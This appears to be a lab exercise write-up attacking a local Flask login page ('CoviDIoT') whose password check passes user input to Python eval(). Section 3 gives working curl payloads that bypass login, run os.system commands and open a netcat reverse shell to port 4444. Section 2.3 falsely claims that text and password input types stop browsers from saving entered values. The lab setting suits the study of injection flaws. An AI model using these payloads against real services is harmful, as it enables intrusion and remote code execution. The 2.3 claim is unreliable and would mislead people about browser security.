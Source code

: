 # 2
## 2.1
```
Werkzeug/2.3.6 Python/3.10.6
```

## 2.2
```
curl -v 127.0.0.1:5000/login
```

```html
<!DOCTYPE html>
<html>
    <head><title>CoviDIoT - Login </title></head>
    <body>
        <h1>CoviDIoT - Login</h1>
        
        <form method=POST>
            Username: <input type="text" name="username"/><br/>
            Password: <input type="password" name="password"/><br/>
            <button>Login</button>
        </form>
    </body>
</html>
```

## 2.3
The inputs are of type text and password, which means that the browser will not save the values entered by the user. This is a security measure to prevent the browser from saving the password in plain text.


## 2.4
```
curl -v 127.0.0.1:5000/login/ -X POST -d "username=alice&password=1234"
```

# 3
## 3.1
```bash
curl -v 127.0.0.1:5000/login/ -X POST -d "username=admin&password=anything' or '"
```

If we take the method:
```python
def passcheck(user, password):
    return eval("'%s' == 'admin' and '%s' == supersecretpassword" % (user,password))
```

Then the above evaluates to:
```python
def passcheck(user, password):
    return eval("'admin' == 'admin' and 'anything' or '' == supersecretpassword")
```

## 3.2
```bash
curl -v 127.0.0.1:5000/login/ -X POST -d "username=admin&password=anything' and os.system('ls') or '"
```

Which evaluates to:
```python
def passcheck(user, password):
    return eval("'admin' == 'admin' and 'anything' and os.system('ls') or '' == supersecretpassword")
```

## 3.3
```bash
curl -v 127.0.0.1:5000/login/ -X POST -d "username=admin&password=anything' and os.system('nc 127.0.0.1 4444 -ve /bin/sh') or '"
```
